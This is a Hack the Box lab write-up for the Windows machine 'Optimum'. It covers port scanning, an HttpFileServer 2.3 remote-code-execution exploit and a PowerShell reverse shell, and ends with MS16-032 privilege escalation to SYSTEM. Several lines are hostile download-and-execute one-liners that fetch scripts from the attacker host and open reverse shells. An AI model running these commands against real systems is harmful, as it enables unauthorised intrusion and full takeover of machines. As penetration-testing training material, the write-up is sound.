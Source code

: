 ```yaml
---
title: Hack the Box - Optimum
date: 2022-08-16 21:09:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Optimum](/assets/HackTheBox/Optimum/Optimum.png)

# Optimum Overview

## Machine Details

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.8|Optimum|Windows|

## Path to Exploitation

The path of explotation for this machine starts with a vulnerable web-app that we leverage to gain our initial foothold. We then enumerate the machine until we identify a potential kernel exploit that could elevate our privileges, problem is, it requries a GUI. Fortunately there's an alternative script that allows us to elevate our privileges without needed access to a GUI.

# Optimum Enumeration

## Full Port Scan

```bash
nmap 10.10.10.8 -p- -oA Optimum/nmap/full-port --open -Pn -vv
```

Results:

|PORT|SERVICE|
|----|-------|
|80|http|

## Service Scan

```bash
nmap 10.10.10.8 -p 80 -sC -sV -oA Optimum/nmap/service-scan -Pn
```

Results:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|80|http|httpd 2.3|

# Website

![Landing Page](/assets/HackTheBox/Optimum/landing-page.png "Site Landing Page")

We immediately see the version of the application is HttpFileServer 2.3. A simple google search reveals several available RCE's affecting this application. We can try to launch a reverse shell using this [script](https://www.exploit-db.com/exploits/49584). 

## Shell on Host

Copy the Invoke-PowerShellTcp.ps1 script to our working directory and add the following line to the bottom of the file:

```shell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.10 -Port 443
```

Host an HTTP Server:

```shell
$ sudo python3 -m http.server 80
```

Finally, setup a listener and execute the script:

```shell
$ python3 exploit2.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.10/Invoke-PowerShellTcp.ps1')"
```

We see we have caught a reverse shell running as the kostas user

![Initial Foothold](/assets/HackTheBox/Optimum/initial-foothold.png "Intial Foothold")

# Privilege Escalation

## Enumerating with Sherlock

We can execute Sherlock.ps1 with the following command:

```shell
PS:\> IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.10/sherlock.ps1')
```

We see three potential Kernel exploits
![Sherlock Output](/assets/HackTheBox/Optimum/sherlock-out.png "Sherlock Output")

We will start with MS16-032 but are unable to get it to work since it requires access to a GUI. There is an [alternative script](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1) that can be used when a GUI is not available. This script gives us the opportunity to pass commands to be executed as SYSTEM.

## Getting to SYSTEM

Use the MS16-032 exploit [PowerShell Script](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1) and append the following line to the bottom of the file

```shell
Invoke-MS16032 -Command "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.10/Invoke-PowerShellTcp.ps1')"
```

This will execute the privilege escalation script and tell it to run our reverse shell payload as the SYSTEM account.

Trigger the exploit by running the following command on the machine:

```shell
PS:\> IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.10/Invoke-MS16032.ps1')
```

When we check on our HTTP Server we see two requests, one for Invoke-MS16032.ps1 and one for Invoke-PowerShellTcp.ps1

![HTTP Requests](/assets/HackTheBox/Optimum/http-requests.png "HTTP Requests")

When we check on our listener, we see we've have caught a shell running as the SYSTEM user

![Getting SYSTEM](/assets/HackTheBox/Optimum/priv-esc.png "SYSTEM Shell")